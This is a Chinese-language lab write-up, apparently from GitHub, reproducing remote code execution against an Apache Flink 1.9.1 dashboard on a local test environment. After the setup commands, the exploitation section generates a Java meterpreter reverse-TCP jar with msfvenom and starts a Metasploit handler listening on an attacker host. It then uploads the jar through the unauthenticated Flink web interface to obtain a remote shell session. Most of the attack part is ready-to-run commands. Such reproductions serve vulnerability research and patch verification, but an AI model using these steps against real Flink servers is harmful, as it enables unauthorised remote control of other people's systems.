



# 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Flink 1.9.1

# 0x01 环境搭建
目标环境：centos7_x64_en-us + flink-1.9.1-bin-scala_2.11.tgz + openjdk version "1.8.0_181"

wget https://archive.apache.org/dist/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz  
tar -xvf ./flink-1.9.1-bin-scala_2.11.tgz  
cd ./flink-1.9.1/bin/  
./start-cluster.sh  
查看端口8081是否开启，如下图  
  
浏览器访问，出现下图所示，表示成功启动  

# 0x02 利用条件
无

# 0x03 影响版本
Flink <= 1.9.1

# 0x04 漏洞复现
攻击环境：kali2020 + msf5

msfvenom -p java/meterpreter/reverse_tcp lhost=172.16.35.128 lport=9999 -o text.jar  
msfconsole  
use exploit/multi/handler  
set payload java/meterpreter/reverse_tcp  
set lhost 172.16.35.128  
set lport 9999  
run  
浏览器访问http://172.16.35.131:8081/ 后点击下图所示  
  
再点击下图所示  
  
此时，meterpreter已经收到session，如下图  

# 0x05 踩坑记录
无

# 0x06 参考链接
无
